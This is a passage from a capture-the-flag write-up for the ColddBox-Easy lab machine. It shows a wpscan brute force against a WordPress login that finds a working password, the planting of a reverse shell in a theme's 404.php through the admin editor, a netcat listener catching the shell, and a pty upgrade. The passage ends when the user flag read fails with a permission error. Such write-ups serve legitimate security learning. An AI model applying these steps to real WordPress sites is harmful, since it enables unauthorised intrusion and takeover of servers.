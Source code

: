 I chose wpscan this time

Tried Hugo and Philip but it didnt work so C0ldd

```
...
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210                                                                                                                                                                                                              
Trying c0ldd / 7654321 Time: 00:03:13 <                                                                                                                                                            > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210

```

So let's GO! on admin dashboard we go for appearance editor

classic reverse shell in 404 page 

then visit 'http://10.10.196.224/wp-content/themes/twentyfifteen/404.php` to get access

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 46852
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:30:02 up 15 min,  0 users,  load average: 0.29, 0.87, 0.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 

```
Try to get user flag

```
www-data@ColddBox-Easy:/$ ls
ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
www-data@ColddBox-Easy:/$ cd /home
cd /home
www-data@ColddBox-Easy:/home$ ls
ls
c0ldd
www-data@ColddBox-Easy:/home$ cd c0ldd
cd c0ldd
www-data@ColddBox-Easy:/home/c0ldd$ ls
ls
user.txt
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
Be disappointed!
